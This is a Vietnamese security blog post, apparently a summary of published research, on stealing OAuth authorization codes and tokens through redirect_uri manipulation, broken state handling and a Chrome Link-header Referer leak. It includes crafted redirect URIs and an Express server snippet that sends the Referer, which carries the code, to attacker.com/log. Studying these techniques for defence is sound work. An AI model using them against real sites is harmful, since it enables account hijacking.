

+++
date = '2025-10-10T00:07:00+07:00'
draft = false
title = 'Stealing OAuth token'
description = 'Đây là bài viết về “Stealing OAuth token”. Thực chất là mình tổng hợp các bài viết của những tác giả khác lại một cách ngắn gọn, giúp mình (và những người cầ...'
tags = ['technical']
+++
# Stealing OAuth token

## Lời nói đầu

Đây là bài viết về **“Stealing OAuth token”.** Thực chất là mình tổng hợp các bài viết của những tác giả khác lại một cách ngắn gọn, giúp mình (và những người cần nó) có thể tìm đọc lại khi cần.

Vì đây chỉ là một bài tóm gọn nên còn nhiều chưa được nêu rõ, các bạn có thể tìm đọc kỹ hơn các bài viết ở dưới phần **#References.**

## OAuth là gì?

OAuth giống như chiếc chìa khóa “mượn tạm” mà không cho người khác toàn quyền vào nhà bạn.

* **Bạn (người dùng)** có một ngôi nhà (tài khoản Google, Facebook, v.v.).
* **Ứng dụng bên ngoài** (ví dụ một trò chơi, một trang web) muốn vào lấy đồ chơi ở nhà bạn (thông tin tên, ảnh đại diện…), nhưng bạn không muốn cho họ chìa khóa chính (mật khẩu).
* OAuth cho phép bạn cấp **chìa khóa phụ** chỉ mở được **cửa phòng đồ chơi** trong nhà, không mở được các phòng khác (ví dụ email, tin nhắn riêng…).
* Khi bạn đồng ý, hệ thống (Google, Facebook…) sẽ trao cho ứng dụng đó “chìa khóa phụ” (gọi là **access token**) và giới hạn nó chỉ được vào đúng phòng bạn cho phép, trong thời gian nhất định.

Như vậy:

1. Bạn không phải chia sẻ **mật khẩu**.
2. Ứng dụng chỉ được quyền “vào phòng” bạn đồng ý, không thể tự ý đi lung tung.
3. Bạn có thể thu hồi chìa khóa phụ bất cứ lúc nào, mà không cần đổi cả ổ khóa chính.

Đó chính là OAuth – cách cho ứng dụng mượn “chìa khóa phụ” an toàn.

## Luồng OAuth và “Non-happy path”

### Luồng OAuth cơ bản

#### Authorization Code Grant Type

Được khuyến nghị dùng cho các trang web truyền thống



Mã ủy quyền (`code`) được gửi đến `redirect_uri` (trong query string), sau đó client trao đổi mã này lấy access token qua kênh an toàn server-to-server. Redirect URI phải được xác thực lại ở bước cuối.

#### Implicit Grant Type

Thường dùng cho Single-Page Applications

Access token được gửi trực tiếp đến `redirect_uri` (trong URL fragment). Client dùng JavaScript để lấy token từ fragment. Bước xác thực `redirect_uri` cuối không cần thiết vì token đã được cung cấp trực tiếp.

### Non-happy path

**Non-happy path** là thuật ngữ dùng để mô tả việc gây ra sự khác biệt giữa việc nhà cung cấp OAuth (ví dụ: Google, Facebook) cấp mã (`code`) hoặc token hợp lệ, nhưng website (ứng dụng khách) nhận token từ nhà cung cấp lại không nhận và xử lý thành công token đó

Mục tiêu của kẻ tấn công khi cố gắng gây ra một "non-happy path" là để **đảm bảo rằng các mã hoặc token không bị website tiêu thụ đúng cách**. Điều này là bước đầu tiên để cuộc tấn công thành công, vì kẻ tấn công muốn đánh cắp và sử dụng các mã hoặc token đó cho riêng mình.

### Các phương pháp tạo “Non-happy Path”

* **Phá hoại tham số state:** Tham số `state` dùng để chống CSRF. Nếu attacker cung cấp state của mình trong link login gửi cho victim, website sẽ từ chối code nhận được vì state không hợp lệ, khiến code không được xử lý và vẫn còn trong URL.
* **Thay đổi chữ hoa/thường của `redirect_uri`:** Gửi `redirect_uri` với chữ hoa/thường khác với giá trị đăng ký (`/CaLlBaCk` thay vì `/callback`). Nếu website không xử lý case-insensitive, nó sẽ gây lỗi, để lại token trong fragment.
* **Thêm path vào `redirect_uri`:** Gửi `redirect_uri` với path phụ (`/callbackxxx`). Nếu provider cho phép, website sẽ redirect đến path không tồn tại, gây lỗi và để lại token trong fragment.
* **Thêm tham số vào `redirect_uri`:** Thêm tham số query `(?code=xxx&`) hoặc fragment (`#id_token=xxx&`) vào `redirect_uri`. Nếu website xử lý nhiều tham số trùng tên không đúng cách, có thể gây lỗi và để lại `token/code` mong muốn trong URL.
* **Sử dụng các `redirect_uri` bị bỏ sót hoặc cấu hình sai:** Một số provider có thể chấp nhận các `redirect_uri` khác ngoài giá trị chính được đăng ký (ví dụ: trang chủ của website).

Ví dụ có một OAuth link như sau:

```
https://oauth-provider.com/oauth/authorize?
response_type=code&
client_id=YOUR_APP_ID&
redirect_uri=https://legitimate.com/callback&
scope=openid%20profile%20email&
state=random_state_string
```

Hacker có thể thay đổi `redirect_uri` như sau`redirect_uri=https://legit.com/callback/../xss_page?param=limited_html`

## Link header

Hãy ví dụ hacker có thể chèn các thẻ ``, hoặc `<a>` vào trang web.

Với OAuth link như sau:

```
https://oauth-provider.com/oauth/authorize?
response_type=code&
client_id=YOUR_APP_ID&
redirect_uri=https://legitimate.com/callback/../page?param=&
scope=openid%20profile%20email&
state=random_state_string
```

Browser sẽ truy cập đến đường link sau:

```
https://legitimate.com/callback/../page?
param=&
code=AUTHORIZATION_CODE&
state=random_state_string
```

Điều này sẽ tạo ra một GET request đến `//attacker.com/xyz.jpg` kèm với header Referer. Tuy nhiên nó chỉ bao gồm origin của trang web, thay vì là URL đẩy đủ bao gồm các params.

```
Referer: https://legitimate.com
```

Tuy nhiên có một trick để ghi đè được referer policy.[Đối với trình duyệt **Google Chrome,** nó sẽ resolve Link header với sub-resource HTTP requests.](https://issues.chromium.org/issues/373263969)

Giả sử ta có đoạn mã sau

```jsx
// author: @slonser_
const express = require('express');
const app = express();
const port = 9999;
const path = require('path');

app.get('/image.jpg', (req, res) => {
    res.setHeader('Link', '<https://attacker.com/log>;rel="preload"; as="image"; referrerpolicy="unsafe-url"');
    res.sendFile(path.join(__dirname, 'logo.jpg'));
});

app.get('/log', (req, res) => {
    console.log(req.headers['referer']);
    res.send('Hi!');
});

app.listen(port, () => {
    console.log(`Server running at http://localhost:${port}`);
});
```

Khi này `referrerpolicy="unsafe-url"` sẽ được áp dụng cho `https://attacker.com/log` và Chrome sẽ resolve (tức gửi request) đến `https://attacker.com/log` kèm theo header **Referer** chứa **Authorization Code.**

## References

* [PortSwigger](https://portswigger.net/web-security/oauth)
* [Voorivex Blog](https://blog.voorivex.team/leaking-oauth-token-via-referrer-leakage)
* [Detectify](https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/)
* [Chromium Issue](https://issues.chromium.org/issues/373263969)
